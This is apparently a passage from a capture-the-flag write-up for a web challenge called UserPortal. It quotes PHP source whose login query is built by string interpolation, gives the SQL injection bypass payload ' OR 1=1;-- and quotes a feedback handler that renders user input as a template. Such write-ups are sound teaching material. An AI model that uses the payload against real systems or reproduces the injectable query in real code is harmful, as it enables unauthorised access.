
### Flag: 
`
VSL{all0w_3sc4p3_1s_fun_hehe_00e0dcbd5!}
`

## Web 4: UserPortal

![Screenshot 2025-01-12 163819](https://github.com/user-attachments/assets/7872930c-739e-4b0d-959c-07ca11415331)

Source:

```php=
public function login()
    {
        header('Content-Type: application/json');
        $response = ['success' => false, 'message' => ''];

        $username = isset($_POST['username']) ? trim($_POST['username']) : '';
        $password = isset($_POST['password']) ? $_POST['password'] : '';
        $username = htmlspecialchars(strip_tags($username));
        $password = htmlspecialchars(strip_tags($password));
        $sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

Time to sql injection, payload:

```text=
username=admin
password=' OR 1=1;--
```

![Screenshot 2025-01-12 164314](https://github.com/user-attachments/assets/a43820f9-50e9-4573-a522-d65d09a745ae)

After sucess login, go to `/feedback`:

![Screenshot 2025-01-12 164330](https://github.com/user-attachments/assets/1684e6cb-aa17-4a2b-81d3-2dd6719ab5a2)

Source again:

In `/controller/FeedbacksController.php`:

```php=
if ($_SERVER["REQUEST_METHOD"] == "POST") {
            $feedback = trim($_POST['feedback']);

            if (strlen($feedback) > 500) {
                $error = "Feedback is too long.";
            } elseif (!empty($feedback)) {
                try {
                    $output = $this->functions->render_template("User Feedback: $feedback", $variables = []);
                    $success = $output;
                } catch (Exception $e) {
                    $error = "An error occurred while processing your feedback.";
                }
            } else {
                $error = "Feedback cannot be empty.";
            }
        }
```
